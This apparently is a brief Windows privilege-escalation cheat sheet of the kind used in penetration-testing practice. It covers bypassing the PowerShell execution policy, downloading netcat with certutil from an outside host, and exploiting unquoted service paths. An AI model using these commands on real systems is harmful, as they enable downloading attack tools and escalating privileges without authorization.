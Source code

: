 # Windows privilege escalation

## Getting powershell to run script without entering powershell console mode

```cmd
powershell.exe -noprofile -executionpolicy bypass -file .\script.ps1
```

## Transferring files

### Curtutil

If you don't have powershell access:

```cmd
certutil.exe -urlcache -split -f "http://10.10.14.17/nc.exe" c:\temp\nc.exe
```

## Unquoted service paths

If the binPath is set to
```
C:\Program Files\Unquoted Path Service\Common Files\service.exe
```
Windows will search in this order:
```
C:\Program.exe
C:\Program Files\Unquoted.exe
C:\Program Files\Unquoted Path.exe
C:\Program Files\Unquoted Path Service\Common.exe
C:\Program Files\Unquoted Path Service\Common Files\service.exe
```